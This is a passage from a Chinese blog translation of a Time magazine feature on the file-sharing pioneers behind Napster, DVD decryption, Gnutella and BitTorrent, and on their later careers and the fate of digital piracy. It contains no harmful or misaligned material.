AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=7136331596878&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=874561780&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1316&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074545%2C31074635%2C44788442%2C44792089&amp;oid=2&amp;psts=ABHeCvgdMsVI7xHu7PJKsAmw2myDSsWfzjY_Z-PKPoo6MUMeEp4iEY1OPAjkNXkLxP_dP0dvCHYeLCdWlTfD&amp;pvsid=2841731554241358&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F34&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=GuaN6X86pE&amp;p=https%3A//coolshell.cn&amp;dtd=35880" data-google-container-id="a!3" data-google-query-id="CLeK1aS5-f4CFVyAZAodJgUHyg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

就在同一年，一个挪威的只有十几岁的年轻人 Jon Lech Johansen，他和另两个今天都不为人知的程序员，写下了一个程序解密了商业的DVD，而他成为了全球盛名的“ DVD Jon.”，那年，他只有15岁。

而在1997年，Justin Frankel，一个亚利桑那州塞多纳的18岁的黑客，开发了一个免费的MP3播放器——WinAmp，其成为了Windows操作系统上装机必备的软件，并造就了主流数字音乐的革命。在他发布的第18个月内，1500万人下载了这个软件。而三年后，Frankel 开发了 Gnutella，一个P2P的文件共享协议，没有中心结点，不像 Napster，其不可能被关闭。目前有上百万人还在使用它。

2001年，Bram Cohen, 当年 26 岁，开发了一个P2P的文件传输共享协议—— BitTorrent，其以全新一流的架构全面优化了网络上大文件的共享和传输效率。 BitTorrent 也变成了整个Internet上发布大数据和文件的一个标准。

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3730229879&amp;adf=3986011235&amp;pi=t.aa~a.425447425~i.15~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684201650&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3363.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsT52Dh1_M6qWUBBs9DDJwKwJLF83YCtKWMLStiyLNut97-XZ4_eIXD-tv5zPSRX4WceWnM&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226636496&amp;bpp=1&amp;bdt=7007&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280&amp;nras=5&amp;correlator=7136331596878&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=874561780&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2005&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074545%2C31074635%2C44788442%2C44792089&amp;oid=2&amp;psts=ABHeCvgdMsVI7xHu7PJKsAmw2myDSsWfzjY_Z-PKPoo6MUMeEp4iEY1OPAjkNXkLxP_dP0dvCHYeLCdWlTfD&amp;pvsid=2841731554241358&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F34&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=2&amp;fsb=1&amp;xpc=SL9AkgnR1R&amp;p=https%3A//coolshell.cn&amp;dtd=35931" data-google-container-id="a!4" data-google-query-id="COK11qS5-f4CFUuKZAod6-wMBg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>


在 2000年代的上半段，《时代》采访了这四个程序员。那个时候，看起来他们要以数字化动乱把整个复杂的传统媒体娱乐平台给拆除，而对有版权的电影，音乐和电视的收费则变得困难和不可能，那些艺术家也将无法从他们作品得到报酬，整个娱乐业包括时代华纳也将被炸为平地。而盗版业则借着这四个程员的软件侵袭了美国公司。

“毕竟”，我们在2003年报道到：“在整个信息经济中，不可能所有的信息都是免费的”。如果毁灭正在来临，那么， Fanning, Johansen, Frankel 和 Cohen 将是那“[四骑士](https://zh.wikipedia.org/zh-cn/启示录中的四骑士)”（译注：启示录中的四骑士传统上被解释为瘟疫、战争、饥荒和死亡）。

Shawn Fanning（左） 和 Bram Cohen（右）

目录


[没有毁灭](https://coolshell.cn/articles/3363.html#没有毁灭)[没有盗版的人](https://coolshell.cn/articles/3363.html#没有盗版的人)[四眼怪兽](https://coolshell.cn/articles/3363.html#四眼怪兽)[简单之道](https://coolshell.cn/articles/3363.html#简单之道)

#### **没有毁灭**

毁灭并没有发生。但是整个娱乐业因此而改变，而这些改变的复杂性和逐渐演进超出了我们的期望。这些发生的故事，海盗王们的事，对于今天数字化世界正在发生的事情有非常高的参考和教育价值。Fanning, Johansen, Frankel 和 Cohen 现在都硅谷运作着自己的小的，合法的软件公司。他们现在没有在做和盗版有干系的事情——当然，如果他们真的没有。

Fanning，四个人中唯一一个没有回复我们的采访请求的人，他较早地退出了毁灭传统唱片业的事业。在2001年，Napster因为不堪众多关于其协助并煽动版权侵权的法律诉论的重压，而不得不关闭。2002年，Fanning 创办了新的服务 Snocap —— 他尝试把文件共享合法化，在和相关的唱片公司合作下，Snocap 赋予消费者对其下载作品给于创作者报酬的权利。


但是，到那个时候，免费自由的文件共享程序像病毒一样的增涨，而用户则热衷于更换他们的音乐硬盘。他们仅在2001年8月一个月内就交换了30亿个文件。而要从这些文件交易中收到钱是根本不可能的。是的，要和免费竞争是很难的一件事。 Fanning 创造了一个连他自己都搞不定的怪物。

所以，他停止继续尝试Snocap下去。 Fanning 的下一个项目是给游戏玩家的社交网络叫 Rupture，最终，他在2008年时以1500万美金把其卖给了电子艺界Electronic Arts ——这是他的第一次发薪日。他现在又于2008年11月开了一个公司 Path， 其主要提供给iPhone手机进行照片分享的服务。

<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3730229879&amp;adf=379599631&amp;pi=t.aa~a.425447425~i.37~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684201650&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3363.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsT52Dh1_M6qWUBBs9DDJwKwJLF83YCtKWMLStiyLNut97-XZ4_eIXD-tv5zPSRX4WceWnM&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226636512&amp;bpp=2&amp;bdt=7024&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C1005x124&amp;nras=7&amp;correlator=7136331596878&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=874561780&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3792&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=854&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074545%2C31074635%2C44788442%2C44792089&amp;oid=2&amp;psts=ABHeCvgdMsVI7xHu7PJKsAmw2myDSsWfzjY_Z-PKPoo6MUMeEp4iEY1OPAjkNXkLxP_dP0dvCHYeLCdWlTfD%2CABHeCvi89fGwXXKDd_UTVa5omJAKFn4gJMZoP1tW0I13NqmFjpZdlErWPEfbItuHqtMhblyVmyG7yYMcInST8JFxQoNPcp1GbD8xL-HxrX2zJ6gh3k9kZw&amp;pvsid=2841731554241358&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F34&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=4&amp;fsb=1&amp;xpc=PNNIeOWwoo&amp;p=https%3A//coolshell.cn&amp;dtd=37697" data-google-container-id="a!6" data-google-query-id="CJjgg6W5-f4CFWcI-QAdSjAChQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

而Napster呢？今天他还在。这个商标在破产拍卖时被卖了，然后再被卖了，但其再也没有被 重建。现在其被  Best Buy 运营，其是 iTunes 的竞争者，其口号是—— “More than just a music store.” （不仅仅只是音乐商店）

#### 没有盗版的人


作为 Gnutella 的作者， Justin Frankel 是 Fanning 合法的继任者。不像 Fanning，他很早就收获了他的第一桶金。在1999年，当WinAmp大放光芒的时候，AOL买了WinAmp和他的公司——Nullsoft，价格应该在1亿美金左右。这让 Frankel 在20岁的时候就非常富有。当然，他也成了AOL的员工。

但这并不是很匹配，在Nullsoft, Frankel的做法是把软件开发到极致，然后免费发布出去。而在 AOL，软件的商业销售威胁并压倒了软件本身。“我致力于的产品，就像这样，我们不愿意金钱的掺入，我们正和其它公司做这笔交易，所以，产品也只能是这样的结果”，他回忆到，“没有人真正地去关心用户的体验是怎么样的”。

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3730229879&amp;adf=379599631&amp;pi=t.aa~a.425447425~i.45~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684201650&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3363.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsT52Dh1_M6qWUBBs9DDJwKwJLF83YCtKWMLStiyLNut97-XZ4_eIXD-tv5zPSRX4WceWnM&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226636505&amp;bpp=2&amp;bdt=7016&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C1005x124%2C704x280&amp;nras=8&amp;correlator=7136331596878&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=874561780&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=4669&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1690&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074545%2C31074635%2C44788442%2C44792089&amp;oid=2&amp;psts=ABHeCvgdMsVI7xHu7PJKsAmw2myDSsWfzjY_Z-PKPoo6MUMeEp4iEY1OPAjkNXkLxP_dP0dvCHYeLCdWlTfD%2CABHeCvi89fGwXXKDd_UTVa5omJAKFn4gJMZoP1tW0I13NqmFjpZdlErWPEfbItuHqtMhblyVmyG7yYMcInST8JFxQoNPcp1GbD8xL-HxrX2zJ6gh3k9kZw&amp;pvsid=2841731554241358&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F34&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=5&amp;fsb=1&amp;xpc=L4ZlaMhI3e&amp;p=https%3A//coolshell.cn&amp;dtd=38100" data-google-container-id="a!5" data-google-query-id="CIC6n6W5-f4CFYLXWwodBW8CEg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

与此同时，Frankel 用他的业余时间开发 Gnutella 。这是一个很有才的软件，不像Napster，其是真正的分布式，没有中心服务器，这样，也没有那个“关闭按钮”让那些律师按。在2000年3月的时候，Gnutella上线，其发了一个贴子：“看见没？AOL也能给你一些好的东西！”，但是就算是这样，也没有换来AOL对其忠爱，而一大堆互联网公司在那时试图并入大的媒体公司，在Napster被诉讼的中期，2004年，他离开了AOL。

然后，他开始干了些有趣的事：他离开了他的成功地，他不用 Gnutella，也没有花一毛钱，就算是10年以后也是这样。 LimeWire —— 最流行的 Gnutella 客户端 —— 号称有 5千万用户。“当我开发它的时候，我最初主要是想用其在验证一下是否可行。所以我也不想从其中获益”，他说，“所以，甚至我和它一点关系也没有也说得通，其就是一个概念”。

Frankel 他最近从旧金山搬到了纽约城，现在全心打理自己的公司 Cockos (别问为什么叫这名)，这是一个关于音频产品套件，叫 Reaper。他坚持不懈地改进着它，并且他和他的用户保持着很近的关系，其用户数大约是几万人。“当前的策略我们并不想发展用户数量”，他说，“我们只是在享受目前的过程，并在做正确的事情”。他并不同意他是这个世界上最危险的geek，而滚石在2004年时对他则是这么认为的。“我不觉得盗版是很危险的”，他说，“根本上来说，大众的商业模式总是依赖于对所有事情的强控制——尤其是那些有瑕疵的模式。而作为一个软件开发者来说，多少会产生一定程度的盗版”， Gnutella 对他来说已是远古的事情了。“数字化盗版：它毁了唱片业了吗？没有。唱片业适应了吗？当然，很多人会说得更好。你应该更关注质量，以及更小一些乐队，等等这类的事”。

“至于音乐流行和排行这么大的市场，这点盗版算什么？” 他边说边笑道， “我希望就是这样。”

#### **四眼怪兽**

在这四骑士中，只有 Bram Cohen他现在还在致力于其10年前的那个项目。他是 BitTorrent的创始人和首席科学家，而一个令人敬佩的旧金山的公司希望能把Cohen的这个令人瞠目的高效的内容分布式技术变成商业化应用。


这是一个奇特的公司：其合法的业务建立在一种仍然可能被用来进行大规模版权侵权的技术上。即使像 BitTorrent这样被8千万用户安装了的东西，其看上去还是像刚刚开始创业一样。 在BitTorrent上有相对较小的一部分是完全合法的 —— 最近的一个研究表明完全合法的部分占11%。而在这11%中，有更少的一部分产生了BitTorrent的收入。

就像 Fanning 的 Snocap 一样，Cohen 试图把其BitTorrent从大量的盗版领域转移到合法的领域，这样才能挣到钱。2007年是BT发展最震动的一年，BitTorrent成为了20世纪福克斯、派拉蒙、华纳兄弟 和 米高梅 影业公司的合作伙伴，和他们一起共同形成了 Torrent Entertainment Network，主要提供电影，电视，电子游戏的购买和零售。

就像 Fanning一样， Cohen 明了要摆脱盗版并不像看上去的那么容易。“所有的和它有关的事都是灾难”，他说到。Torrent Entertainment Network 于2008年底关闭。回想起来，你能明白这为什么不行。 BitTorrent在用户友好上做得还不够，并且，在其底层也不够有效率。它可以很快地像病毒一样地移动大量的数据。然后，当你要在上面算钱的时候，你不得不把速度给降下来，然后跟踪并控制其下载流，还和使用一些很扯淡的诸如“数字版权管理（DRM）”之流的技术，其大量地限制了用户那些是可以干的，哪些是要买的。

<iframe id="aswift_7" name="aswift_7" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3730229879&amp;adf=4130223591&amp;pi=t.aa~a.425447425~i.65~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684201650&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3363.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsT52Dh1_M6qWUBBs9DDJwKwJLF83YCtKWMLStiyLNut97-XZ4_eIXD-tv5zPSRX4WceWnM&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226636530&amp;bpp=3&amp;bdt=7041&amp;idt=3&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C1005x124%2C704x280%2C704x280&amp;nras=9&amp;correlator=7136331596878&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=874561780&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=6492&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=3466&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074545%2C31074635%2C44788442%2C44792089&amp;oid=2&amp;psts=ABHeCvgdMsVI7xHu7PJKsAmw2myDSsWfzjY_Z-PKPoo6MUMeEp4iEY1OPAjkNXkLxP_dP0dvCHYeLCdWlTfD%2CABHeCvi89fGwXXKDd_UTVa5omJAKFn4gJMZoP1tW0I13NqmFjpZdlErWPEfbItuHqtMhblyVmyG7yYMcInST8JFxQoNPcp1GbD8xL-HxrX2zJ6gh3k9kZw%2CABHeCvjUIYtj9MTIWt4FJyUq4tHOlAS7Idq8hopCTuug4ey778KcvpBvC1_IjzM87IpBJhYIErTCIsuBEys4hpH-UUpSWaJw%2CABHeCvjMSYlag2B4sZqsHDyYw9pWRrl7sIG_jObsPmvoJSNA3ImJilwz66-8kfgkgIWGBSMSPmTrK4Q7dcxBWLLUC8dgtBmp%2CABHeCvhkyJvRzHDmdc9nzP_4s29qavHf9HKEishBDAu1CrCPb-_RAJVCRHCpGTJp5GsRYsw7T6RO-WlSmhptR5I4sZtGnZEl&amp;pvsid=2841731554241358&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F34&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=8&amp;uci=a!8&amp;btvi=6&amp;fsb=1&amp;xpc=qK4YPQLmPA&amp;p=https%3A//coolshell.cn&amp;dtd=38832" data-google-container-id="a!8" data-google-query-id="CMfBw6W5-f4CFQmN7AodrsQMyw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

“我从这次失败中学到了很多很多的教训”， Cohen 悔恨地说。他现在的策略是只和那些只需要他的BT中的“快速”和“病毒式分布”的人合作。“与其去和那些内容提供商合作，为他们加上特权，以扩展我们的渠道，我们还不如直接获取那更大的渠道，那里的人更喜欢更为开放的方式”。

迄今，对些感兴趣的独立电影制片商叫 *Four Eyed Monsters* （四眼怪兽）和 一个叫 *Pioneer One* （[先驱者一号](http://movie.douban.com/subject/4901534/)）的电视剧集的创作团队。说起来有点沮丧：Cohen正坐在一个消防水带上，一个程序员所梦想的成功的技术却失控了，而大的玩家又不想来玩。

以他的编码天份，Cohen可以很容易的进入一家大型的公司。但那并不是他的风格。“我的确需要一定的自由度”，他说。他现在正在开发一个全新的事情——一个P2P的实时数据流的系统，而不是分散的文件。这个项止将可能有巨大的潜力，尤其在新闻、体育等事的互联网上的现场直播。当然，他还在维护着 BitTorrent，但他没有花太多的时间在上面。他说：“当我开发它的时候我就知道没错”。

#### **简单之道**

那么，在去年，盗版导致了什么？在美国，每个人都认为盗版对内容制造者的影响并没有那么坏。一份去年四月份美国审计署的报告，非常牵强地把盗版和滞销给联系在一起，但其结果尚无定论。

打击盗版在今天扁平化的世界上并不那么成功。无政府主义的世界观加上那些无与伦比的代码，不可能在那些合法的津津计较的商业界里传播。好的代码应该给用户有不同的选择，用户使用他们也并不一定是对行业有益的。而你真正需要的是向那些合法商业界挑战，挑战他们那些限制用户做用户想做的事的那种独裁性。（译注：这让我想到了腾讯360还有敏感词）

<iframe id="aswift_6" name="aswift_6" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3730229879&amp;adf=4130223591&amp;pi=t.aa~a.425447425~i.77~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684201650&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3363.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsT52Dh1_M6qWUBBs9DDJwKwJLF83YCtKWMLStiyLNut97-XZ4_eIXD-tv5zPSRX4WceWnM&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226636523&amp;bpp=1&amp;bdt=7034&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D10f79cd37fd225d8-2254bbd932df007a%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbTwz9ERLCRvvD51JOTAk_4WvPa1g&amp;gpic=UID%3D0000098b16346c83%3AT%3D1684226377%3ART%3D1684226377%3AS%3DALNI_MbSUKrPXwJQ8WMCBTebMaaTf0LYXg&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C1005x124%2C704x280%2C704x280%2C704x280&amp;nras=10&amp;correlator=7136331596878&amp;frm=20&amp;pv=1&amp;ga_vid=479574193.1684226376&amp;ga_sid=1684226376&amp;ga_hid=874561780&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=7589&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=4554&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074468%2C31074545%2C31074635%2C44788442%2C44792089&amp;oid=2&amp;psts=ABHeCvgdMsVI7xHu7PJKsAmw2myDSsWfzjY_Z-PKPoo6MUMeEp4iEY1OPAjkNXkLxP_dP0dvCHYeLCdWlTfD%2CABHeCvi89fGwXXKDd_UTVa5omJAKFn4gJMZoP1tW0I13NqmFjpZdlErWPEfbItuHqtMhblyVmyG7yYMcInST8JFxQoNPcp1GbD8xL-HxrX2zJ6gh3k9kZw%2CABHeCvjUIYtj9MTIWt